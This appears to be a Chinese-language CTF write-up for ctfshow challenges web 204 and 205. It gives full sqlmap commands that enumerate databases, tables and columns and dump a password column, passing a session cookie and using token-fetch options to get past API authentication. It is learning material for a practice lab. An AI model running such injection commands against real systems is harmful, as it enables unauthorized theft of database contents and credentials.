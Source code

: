 ## web 204

带上cookie参数，使用--cookie

f12在应用里找到PHPSESSID=xxxx的cookie，只需要值即可

`--cookie="xxxx"`

```bash
# 爆数据库   ctfshow_web
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q"
# 指定数据库来爆表名     ctfshow_user
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web --tables
# 指定数据库,表爆字段   id,pass,username
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web -T ctfshow_user --columns
# 指定数据库,表,字段,列表爆数据
sqlmap -u https://78628529-78f4-4893-83d7-ca111a1d0e11.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain" --cookie="8tabnpij74cu06necss480g05q" -D ctfshow_web -T ctfshow_user -C pass --dump
```

## web 205

 api调用需要鉴权

 f12打开网络界面，在查询框输入1，可以看到网络调用api时，还请求了一个getToken.php

 ![token](/medias/show-sql/1.png)

- –safe-url:意思是访问目标网址前需要访问的地址
- –safe-freq是每两次间访问gettoken的次数，设置为一次

例如`--safe-url http://390b4a5e-c0c5-474e-a544-aa399aeb858c.challenge.ctf.show/api/getToken.php --safe-freq 1`

这一题不能带cookie跑，cookie是变化的，这一次flag的位置不在ctfshow_user表里了，在新的表ctfshow_flax里

 ```bash
# 爆数据库   ctfshow_web
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --dbs --headers="Content-Type:text/plain" --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库来爆表名     ctfshow_flax
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web --tables --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表爆字段   flagx,id,tes
sqlmap -u https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --user-agent=sqlmap --refer=ctf.show --headers="Content-Type:text/plain"  -D ctfshow_web -T ctfshow_flax --columns --safe-url https://515213bd-0688-4e01-800c-8df1cbc8faa0.challenge.ctf.show/api/getToken.php --safe-freq 1
# 指定数据库,表,字段,列表爆数据
 ```